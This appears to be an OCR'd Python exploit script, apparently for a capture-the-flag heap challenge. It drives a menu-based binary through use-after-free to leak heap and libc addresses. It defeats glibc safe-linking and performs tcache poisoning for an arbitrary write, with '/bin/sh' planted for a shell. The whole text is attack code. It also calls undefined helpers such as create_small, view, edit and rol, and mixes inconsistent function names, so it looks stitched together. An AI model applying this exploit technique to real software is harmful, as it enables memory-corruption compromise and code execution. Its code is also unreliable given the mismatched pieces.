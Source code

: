 ```python
	sla('💀 ', e(str(idx)))
	sla('💀 ', data)

def remove(idx: bytes):
	sla('💀 ', b'2')
	sla('💀 ', e(str(idx)))

def show(idx: bytes):
    sla('💀 ', b'3')
    sla('💀 ', e(str(idx)))
    rud(b'Page content: ')
    show = rud(b'\n')
    li(f"Leaked: {show}")
    return show

def exit():
	sla('💀 ', b'42')

def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

def obfuscate(p, adr):
    return p^(adr>>12)

ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))

def encrypt(v, key):
    return rol(v ^ key, 0x11, 64)

def www_tcache_poisoning(where, what):
    create_small(b'')
    create_small(b'')
    delete(2)
    delete(1)
    addr = deobfuscate(view(1))
    log.info(f"addr @ 0x{addr:x}")
    edit(1, p64(where ^ (addr >> 12)))
    create_small(b'')
    create_small(b'')
    edit(4, what)

for i in range(0, 7, 1):
    create(0x80, i, b'')
remove(0)
heap = u64(lj(show(0), 8, b'\0')) << 12
li(f"heap @ {hex(heap)}")
create(0x80, 0, b'YY')
create(0x80, 7, b'YY')
create(0x80, 8, b'YY')
create(0x10, 9, b"/bin/sh\0")
for i in range(0, 7, 1):
    remove(i)
remove(8)
remove(7)
leaked = u64(lj(show(8), 8, b'\0'))
libc.address = leaked - 0x219ce0 - 0x1000
```